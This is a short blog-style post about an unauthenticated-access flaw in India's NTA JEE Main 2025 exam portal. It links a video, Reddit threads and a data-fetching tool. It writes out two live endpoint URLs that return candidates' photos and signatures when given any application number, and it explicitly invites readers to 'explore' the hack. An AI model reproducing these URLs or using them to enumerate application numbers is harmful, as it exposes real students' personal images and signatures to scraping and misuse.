

## A Major Security Flaw Exposed in the NTA Portal: What You Need to Know   

I've already created a detailed video on this issue, which you can watch here to get a complete understanding of the situation.   

### Demo Video

<div className="flex justify-center items-center border">
  <iframe
    className="w-full"
    src="https://youtu.be/FG0kvbxrCyU"
    height="450"
    title="2025 JEE Mains Students Data Leak"
    allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share"
  ></iframe>
</div>

This post is necessarily to expose more details on how hack happend for you to explore which youtube often restricts with it's policies   

The official Reddit post is deleted: [link](https://www.reddit.com/r/JEENEETards/comments/1hyt0dv/comment/m6kmtgh/)   

Here is the reddit post explaining the issue: [link](https://www.reddit.com/r/IndiaSpeaks/comments/1hyvhlv/privacy_is_a_joke_in_this_country_jee_main_data/)

### The Vulnerability&nbsp;&nbsp;↩

### Code:   

<div style={{ paddingTop: '1rem' }} className="pt-2 flex justify-center items-center">
  
</div>

Source code from JEE Main Info Fetcher: [link](https://jeemaininfo.vercel.app/)

### Explaination:    

```js
https://examinationservices.nic.in/JeeMain2025/Handler/DisplayCandImagePDF.ashx?appformid=101032511&appno=${appNumber}&docType=01
https://examinationservices.nic.in/JeeMain2025/Handler/DisplayCandImagePDF.ashx?appformid=101032511&appno=${appNumber}&docType=03
```

Both these endpoints are not secured to have a valid token to fetch the photo and signature. So upon passing a valid application number in place of `appNumber` and visiting the url's will expose the student data.   

If you want brief demo on how to identify these kind of Vulnerabilities... Comment under my youtube video I'll make a dedicated tutorial video.   

Bye